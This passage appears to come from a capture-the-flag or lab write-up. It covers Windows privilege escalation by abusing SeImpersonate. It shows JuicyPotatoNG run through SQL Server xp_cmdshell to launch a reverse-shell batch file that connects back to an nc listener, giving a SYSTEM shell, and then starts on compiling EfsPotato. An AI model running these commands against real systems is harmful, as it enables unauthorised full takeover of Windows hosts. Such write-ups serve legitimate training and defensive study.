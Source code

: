 Now with `nc` listening on your host, Invoke JuicyPotatoNG :

```bash
SQL> xp_cmdshell C:\\programdata\\jp.exe -t * -p C:\\programdata\\rev.bat
output
--------------------------------------------------------------------------------
NULL
NULL
         JuicyPotatoNG
         by decoder_it & splinter_code
NULL
[*] Testing CLSID {854A20FB-2D44-457D-992F-EF13785D2B51} - COM server port 10247
[+] authresult success {854A20FB-2D44-457D-992F-EF13785D2B51};NT AUTHORITY\SYSTEM;Impersonation
[+] CreateProcessWithTokenW OK
[+] Exploit successful!
NULL 
```

If reports success as above, there will be a shell running as SYSTEM at `nc` :

```bash
nap@hacky$ rlwrap -cAr nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.168 63184
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

---
Another way to abuse SeImpersonate is using :

[EfsPotato](https://github.com/zcgonvh/EfsPotato/blob/master/EfsPotato.cs)

Download the single file, `EfsPotato.cs` from [GitHub](https://github.com/zcgonvh/EfsPotato/blob/master/EfsPotato.cs) to your Windows VM. There are compile instructions on the readme, and they are very simple. I had success using the v4 .NET compiler :

```powershell
PS > C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe efspotato.cs
Microsoft (R) Visual C# Compiler version 4.8.4084.0
for C# 5
Copyright (C) Microsoft Corporation. All rights reserved.

This compiler is provided as part of the Microsoft (R) .NET Framework, but only supports language versions up to C# 5, which is no longer the latest version. For compilers that support newer versions of the C# programming language, see http://go.microsoft.com/fwlink/?LinkID=533240

efspotato.cs(103,29): warning CS0618: 'System.IO.FileStream.FileStream(System.IntPtr, System.IO.FileAccess, bool)' is
        obsolete: 'This constructor has been deprecated.  Please use new FileStream(SafeFileHandle handle, FileAccess
        access) instead, and optionally make a new SafeFileHandle with ownsHandle=false if needed.
        http://go.microsoft.com/fwlink/?linkid=14202'
```
